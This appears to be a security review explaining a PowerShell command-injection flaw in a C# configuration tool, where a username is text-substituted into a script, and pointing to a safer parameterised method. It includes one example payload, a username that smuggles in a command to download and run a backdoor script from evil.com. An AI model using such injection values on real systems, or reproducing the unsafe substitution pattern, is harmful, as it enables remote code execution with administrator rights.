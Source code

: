 ### The Vulnerability Explained

**What the developer intended:**
- Pass the username as a PowerShell parameter safely
- The script has `param($UserName)` at the top

**What actually happens:**
1. The entire PowerShell script is stored as a C# string
2. `.Replace("$UserName", $"'{username}'")` does a **text substitution**
3. All occurrences of the literal string `$UserName` are replaced with the actual username wrapped in quotes
4. The modified script is sent to PowerShell as raw text
5. PowerShell executes it as-is

**Why this is vulnerable:**

If a username contains PowerShell syntax, it gets executed:

**Example Attack:**
```csharp
// Attacker provides this username:
string username = "test'; Invoke-WebRequest http://evil.com/backdoor.ps1 | iex; #";

// After replacement, the script becomes:
param('test'; Invoke-WebRequest http://evil.com/backdoor.ps1 | iex; #')  // <-- Syntax error but too late
$ntprincipal = new-object System.Security.Principal.NTAccount 'test'; Invoke-WebRequest http://evil.com/backdoor.ps1 | iex; #'
```

The attacker's code executes with the privileges of the ConfigTool (Administrator).

### Available Tools We Have

Looking at `PowerShellRemotingService.cs`, we have **two methods**:

**Method 1: ExecuteScriptAsync** (currently used - UNSAFE)
```csharp
public async Task<PowerShellResult> ExecuteScriptAsync(string script, string? serverName = null)
```
- Takes a raw PowerShell script as a string
- No parameter support
- Executes the script exactly as provided
- ❌ Vulnerable to injection if script contains user input

**Method 2: ExecuteCommandAsync** (not currently used - SAFE)
```csharp
public async Task<PowerShellResult> ExecuteCommandAsync(
    string command, 
    Dictionary<string, object>? parameters = null, 
    string? serverName = null)
```
- Takes a PowerShell command/cmdlet name
- Accepts parameters as a Dictionary
- Uses PowerShell's `.AddParameter()` method
- ✅ Safe from injection (parameters are properly escaped)
